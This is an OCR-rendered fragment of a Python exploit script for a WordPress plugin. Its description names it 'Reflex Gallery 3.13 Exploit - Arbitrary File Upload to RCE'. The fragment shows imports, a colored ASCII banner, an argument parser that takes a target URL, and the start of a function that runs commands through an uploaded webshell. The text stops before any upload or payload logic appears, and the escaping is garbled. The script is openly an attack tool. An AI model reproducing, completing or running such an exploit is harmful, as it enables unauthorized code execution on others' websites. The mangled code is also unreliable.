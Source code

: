# Libraries
import requests
import sys
import argparse
import os
import re
import time
import base64

# Colors
class c:
PURPLE = '\\033\[95m'
BLUE = '\\033\[94m'
CYAN = '\\033\[96m'
GREEN = '\\033\[92m'
YELLOW = '\\033\[93m'
RED = '\\033\[91m'
END = '\\033\[0m'
UNDERLINE = '\\033\[4m'

# Print banner
def banner\(\):

exp\_banner = """  \_\_\_      \_\_ \_            \_\_\_      \_ \_                \_\_\_\_  \_   \_\_\_\_  \_\_\_          \_     \_ \_   
| \_ \\\_\_\_ / \_| |\_\_\_\_\_ \_\_  / \_\_|\_\_ \_| | |\_\_\_ \_ \_ \_  \_  |\_\_ / / | |\_\_ / | \_\_|\_ \_\_\_ \_\_| |\_\_\_\(\_\) |\_ 
|   / \-\_\)  \_| / \-\_\) \\ / | \(\_ / \_\` | | / \-\_\) '\_| || |  |\_ \\\_| |\_ |\_ \\ | \_|\\ \\ / '\_ \\ / \_ \\ |  \_|
|\_|\_\\\_\_\_|\_| |\_\\\_\_\_/\_\\\_\\  \\\_\_\_\\\_\_,\_|\_|\_\\\_\_\_|\_|  \\\_, | |\_\_\_\(\_\)\_\(\_\)\_\_\_/ |\_\_\_/\_\\\_\\ \.\_\_/\_\\\_\_\_/\_|\\\_\_|
|\_\_/                          |\_|               """
print\(c\.YELLOW \+ exp\_banner \+ c\.END\)

# Add arguments
def parser\(\):

p = argparse\.ArgumentParser\(description="Reflex Gallery 3\.13 Exploit \- Arbitrary File Upload to RCE"\)
p\.add\_argument\("\-u", "\-\-url", required=False, help="base URL of the wordpress target"\)
p\.add\_argument\("\-i", "\-\-info", required=False, action='store\_true', help="show vulnerability description"\)

return p\.parse\_args\(\)

# Execute commands once webshell is uploaded
def execute\_commands\(url, webshell\_name\):

